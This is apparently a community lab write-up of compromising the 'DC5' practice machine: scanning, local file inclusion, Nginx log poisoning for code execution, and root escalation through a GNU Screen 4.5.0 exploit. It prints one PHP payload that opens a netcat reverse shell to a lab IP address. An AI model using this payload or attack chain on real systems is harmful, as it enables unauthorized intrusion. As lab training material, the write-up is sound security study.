 # DC5 Offensive Security Community Writeup
## Level: Intermediate

![logo](1.png)

## Scanning
We launch **nmap** with scripts and software versions on all ports.

![](2.png)

## Enumeration

We access the website, review the source code and the different sections, but there is nothing interesting.

![](3.png)

We reviewed the site again, specifically the *"Contact"* section. There we find a contact form, we fill it with arbitrary data and we see that it is sent by GET method.

![](4.png)

If we reload the file without specifying the variable, we see that the copyright year is different, so it is very likely that the application is embedding files through variables (LFI?, Path traversal?).

![](5.png)

We launch the **Wfuzz** tool with a medium dictionary, enumerate a new variable.

![](6.png)

Yes, it is vulnerable to local file inclusion (LFI).

![](7.png)

Previously, we saw in the headers that the server has an **Nginx** deployed, so we load the configuration file and get the paths where it stores logs.

![](9.png)

## Exploitation
Perfect, now we will do some tests to know the file that could help us to execute malicious code.

#### Testing Remote Code Execute (RCE)
![](10.png)

#### Result testing Remote Code Execute (RCE)
![](11.png)

Great, having clear in which file we can evidence code execution, let's make a proof of concept that allows us to execute remote system commands.

We read the flag of *user.txt*.

#### PoC Log Poisoning + RCE
![](12.png)

#### Result PoC Log Poisoning + RCE
![](13.png)

Perfect! Well, we are not going to complicate and we are going to execute directly a reverse shell, but remember to put a **netcat** on the listen in our Kali.

#### Payload
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.204 443 >/tmp/f');?>

```
#### Request with reverse shell code
![](14.png)

#### Result reverse shell code
![](15.png)

## Privilege Escalation
We ran some of our favorite recognition scripts (Ex. linpeas.sh) and listed a "**Screen**" in version 4.5.0.

![](16.png)

This binary has a known exploit that would allow us to escalate root privileges: [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

In my case, I compiled the necessary files and hosted them on the victim. Once downloaded, I executed the following two commands to escalate privileges to root and read the proof.txt file.
![](17.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
